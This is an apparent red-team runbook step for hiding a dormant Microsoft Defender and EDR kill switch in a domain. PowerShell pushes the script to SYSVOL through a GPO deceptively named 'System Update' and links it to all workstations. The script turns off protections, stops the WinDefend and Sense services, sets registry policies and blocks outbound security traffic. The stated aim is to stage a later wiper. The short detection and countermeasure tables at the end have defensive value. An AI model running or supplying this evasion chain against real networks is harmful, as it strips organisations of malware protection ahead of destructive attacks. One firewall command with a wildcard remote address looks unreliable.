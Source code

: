 
# Step 4a: Deploy GPO with Triggered Defender Disable Script

**Objective**: Deploy a GPO startup script (`disable_defender_triggered.ps1`) that disables Microsoft Defender and EDR tools only when a trigger file (`run_trigger.txt`) is present.

---

## Context

- Red Team has administrative control of the Domain Controller (`infra-dc1`)
- Goal is to pre-position defense evasion capability without triggering immediate detection
- Destructive wiper logic will be handled separately in a later step

---

## Execution

### 1. Upload Script to SYSVOL

```powershell
Copy-Item -Path C:\RedTeam\disable_defender_triggered.ps1 -Destination \\infra-dc1\SYSVOL\domain.com\scripts\
```

### 2. Create and Configure the GPO

```powershell
New-GPO -Name "System Update" -Comment "Defender Evasion Script"
Set-GPStartupScript -Name "System Update" -ScriptName "disable_defender_triggered.ps1"
New-GPLink -Name "System Update" -Target "OU=Workstations,DC=domain,DC=com"
```

### 3. Script Logic Summary

The script below disables Microsoft Defender and EDR tools **only if** the file `C:\Windows\Temp\run_trigger.txt` exists:

```powershell
$triggerPath = "C:\Windows\Temp\run_trigger.txt"

if (Test-Path $triggerPath) {
    Set-MpPreference -DisableRealtimeMonitoring $true
    Set-MpPreference -DisableBehaviorMonitoring $true
    Set-MpPreference -DisableIOAVProtection $true
    Set-MpPreference -DisableScriptScanning $true

    Stop-Service -Name 'WinDefend' -Force
    Stop-Service -Name 'Sense' -Force

    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1 -PropertyType DWORD -Force
    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableRealtimeMonitoring" -Value 1 -PropertyType DWORD -Force
    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableBehaviorMonitoring" -Value 1 -PropertyType DWORD -Force
    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableIOAVProtection" -Value 1 -PropertyType DWORD -Force

    schtasks /Change /TN "Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /Disable
    netsh advfirewall firewall add rule name="Block Security Outbound" dir=out action=block remoteip=*.defender.com enable=yes
}
```

---

## Result

- Defender and EDR evasion is deployed across the domain but remains dormant
- Can be activated at any time using a simple trigger file + reboot

---

## Detection Opportunities

| Event ID | Description |
|----------|-------------|
| 5136     | GPO created or modified |
| PowerShell logs | Script execution via GPO |
| File system | `disable_defender_triggered.ps1` dropped to SYSVOL |

---

## Defensive Countermeasures

- Monitor for new startup scripts in SYSVOL
- Alert on changes to GPOs outside approved channels
- Use tamper-proof logging and AppLocker to prevent script-based AV bypass

